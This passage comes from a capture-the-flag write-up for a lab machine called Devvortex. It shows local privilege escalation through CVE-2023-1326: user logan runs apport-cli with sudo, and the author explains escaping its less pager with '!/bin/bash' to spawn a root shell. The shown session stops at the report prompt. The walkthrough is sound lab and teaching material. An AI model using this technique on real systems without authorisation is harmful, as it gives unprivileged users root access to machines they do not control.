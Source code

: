 Logan can execute apport-cli with privileged permission.

```shell
logan@devvortex:~$ /usr/bin/apport-cli --version
2.20.11
```

We find that it is apport-cli version `2.20.11` and it is vulnerable to a 
privilege escalation attack if an unprivileged user is allowed to run it with sudo.

[https://www.cvedetails.com/cve/CVE-2023-1326/](https://www.cvedetails.com/cve/CVE-2023-1326/)

The exploit works as apport-cli invokes a pager when viewing a crash. This can be used to run system commands in the context of the user executing the parent command. If it is run as root using sudo, it can be used to spawn an interactive system shell, since elevated privileges are not dropped.

We now look for running processes and then attempt to report a problem using `apport-cli` in `--file-bug` mode. 

```shell
logan@devvortex:~$ ps -ux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
logan       3058  0.0  0.2  19040  9660 ?        Ss   10:38   0:00 /lib/systemd/systemd --user
logan       3060  0.0  0.0 169188  3272 ?        S    10:38   0:00 (sd-pam)
logan       3160  0.0  0.1  14064  6076 ?        S    10:38   0:00 sshd: logan@pts/1
logan       3168  0.0  0.1   8272  5068 pts/1    Ss   10:38   0:00 -bash
logan       3688  0.0  0.1  13960  6028 ?        S    11:38   0:00 sshd: logan@pts/3
logan       3689  0.5  0.1   8272  5020 pts/3    Ss   11:38   0:00 -bash
logan       3697  0.0  0.0   9080  3556 pts/3    R+   11:38   0:00 ps -ux
```

We will use `systemd` with the `PID` 3058.

By running `apport-cli` using sudo together with option `-P` flag and the `file-bug` mode using `-f` flag, the tool will gather the information and report any issue found. When prompted we select to `view report` and since less is the default pager we run `!/bin/bash` command and spawn interactive system shell as root.

```shell
logan@devvortex:~$ sudo /usr/bin/apport-cli -P 3058 -f

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
......
*** It seems you have modified the contents of "/etc/systemd/journald.conf".  Would you like to add the contents of it to your bug report?


What would you like to do? Your options are:
  Y: Yes
  N: No
  C: Cancel
Please choose (Y/N/C): Y

*** It seems you have modified the contents of "/etc/systemd/resolved.conf".  Would you like to add the contents of it to your bug report?


What would you like to do? Your options are:
  Y: Yes
  N: No
  C: Cancel
Please choose (Y/N/C): Y
................

*** Send problem report to the developers?

```